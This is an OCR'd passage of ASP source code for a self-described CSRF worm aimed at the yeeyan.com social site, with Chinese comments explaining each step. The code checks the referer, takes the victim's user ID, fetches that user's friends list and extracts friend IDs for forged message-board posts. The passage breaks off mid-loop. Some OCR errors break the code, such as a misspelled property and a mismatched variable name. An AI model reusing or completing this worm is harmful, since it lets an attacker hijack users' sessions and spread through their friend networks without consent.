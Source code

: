 ```
<%
'auther: Xlaile
'data: 2008-09-21
'this is the CSRF Worm of www.yeeyan.com        

r = Request.ServerVariables("HTTP_REFERER")
'获取用户的来源地址，如：http://www.yeeyan.com/space/show/hving        

If InStr(r, "http://www.yeeyan.com/space/show") > 0 Then
    'referer判断，因为攻击对象为yeeyan个人空间留言板，就是这样的地址        

    Function regx(patrn, str)
        Dim regEx
        Dim Match
        Dim Matches
        Set regEx        = New RegExp
        regEx.Pattern    = patrn
        regEx.IgnoreCace = True
        regEx.Global     = True
        Set Matches      = regEx.Execute(str)    

        For Each Match in Matches
            RetStr          = RetStr & Match.Value & " | "
        Next    

        regx             = RetStr
    End Function    

    Function bytes2BSTR(vIn)
        Dim strReturn
        Dim i1
        Dim ThisCharCode
        Dim NextCharCode
        strReturn      = ""    

        For i1 = 1 To LenB(vIn)
            ThisCharCode  = AscB(MidB(vIn,i1,1))    

            If ThisCharCode <  & H80 Then
                strReturn    = strReturn & Chr(ThisCharCode)
            Else
                NextCharCode = AscB(MidB(vIn,i1 + 1,1))
                strReturn    = strReturn & Chr(CLng(ThisCharCode) * & H100 + CInt(NextCharCode))
                i1           = i1 + 1
            End If    

        Next    

        bytes2BSTR = strReturn
        End
        id         = Mid(r,34) '获取用户标识ID，如:hving
        furl       = "http://www.yeeyan.com/space/friends/" + id '用户好友列表链接是这样的
        Set http   = Server.CreateObject("Microsoft.XMLHTTP") '使用这个控件
        http.Open "GET",furl,False '同步，GET请求furl链接
        http.Send '发送请求
        ftext  = http.ResponseText '返回请求结果，为furl链接对应的HTML内容
        fstr   = regx("show/(\d+)?"">[^1-9a-zA-Z]+<img",ftext)
        '正则获取被攻击用户的所有好友的ID值，CSRF留言时需要这个值
        farray = Split(fstr , " | ")
        '下面几句就是对获取到的ID值进行简单处理，然后扔进f(999)数组中
        Dim f(999)    

        For i = 0 To UBound(farry) - 1
```